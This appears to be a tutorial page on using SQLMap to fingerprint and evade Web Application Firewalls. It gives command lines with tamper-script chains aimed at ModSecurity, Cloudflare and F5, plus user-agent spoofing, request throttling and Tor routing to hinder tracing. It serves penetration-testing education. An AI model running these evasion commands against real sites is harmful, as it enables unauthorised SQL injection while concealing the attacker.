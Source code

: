 ```yaml
---
title: WAF Detection and Bypass
description: Learn how to detect and bypass Web Application Firewalls using SQLMap
---
```


Web Application Firewalls (WAFs) are security systems designed to protect web applications from various attacks, including SQL injection. SQLMap includes features to detect and bypass WAFs during authorized security testing.

## Detecting WAFs

### Automatic WAF Detection

SQLMap can automatically detect the presence of a WAF:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --identify-waf
```

This attempts to identify if a WAF is protecting the target application and, if possible, determine which specific WAF product is in use.

### Detailed WAF Fingerprinting

For more detailed WAF fingerprinting:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --fingerprint
```

This performs a more comprehensive fingerprinting of the target, including WAF detection.

## Common WAF Bypass Techniques

### Level and Risk Adjustment

Increasing the test level and risk can help bypass some WAFs:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --level=5 --risk=3
```

Higher levels and risks use more sophisticated techniques that might evade WAF detection.

### Tamper Scripts

SQLMap's tamper scripts modify payloads to bypass WAF filters:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=space2comment,between
```

This example uses two tamper scripts:
- `space2comment`: Replaces spaces with comments
- `between`: Replaces greater-than and less-than operators with BETWEEN statements

### Chaining Multiple Tamper Scripts

You can chain multiple tamper scripts for more effective evasion:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=space2comment,between,charencode,randomcase
```

The scripts are applied in the specified order, creating a more heavily obfuscated payload.

## WAF-Specific Bypass Techniques

### ModSecurity Bypass

For ModSecurity WAF:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=modsecurityversioned,space2comment,charunicodeencode
```

### Cloudflare Bypass

For Cloudflare WAF:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=cloudflare,randomcase,charencode
```

### F5 BIG-IP ASM Bypass

For F5 BIG-IP Application Security Manager:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=between,charunicodeencode,space2randomblank
```

## Advanced Evasion Settings

### Custom User-Agent

Using a legitimate-looking user agent:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36"
```

### Random User-Agent

Using a random user agent for each request:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --random-agent
```

### Request Delays

Adding delays between requests to avoid rate limiting:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --delay=2 --timeout=30
```

This adds a 2-second delay between requests and sets a 30-second timeout.

### Tor Network Routing

Routing requests through the Tor network:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tor --tor-type=SOCKS5
```

This routes all SQLMap traffic through the Tor network, making it harder to trace.


## Troubleshooting WAF Bypasses

If you're having trouble bypassing a WAF:

1. Try different combinations of tamper scripts
2. Use verbose mode (-v) to see what's happening
3. Try different injection techniques with --technique
4. Use time-based blind techniques which may be harder for WAFs to detect
5. Consider using out-of-band techniques with --dns-domain

Remember that WAF evasion success depends on:
- The specific WAF product and its configuration
- The WAF's rule set and update status
- The specific SQL injection vulnerability
- The database management system in use
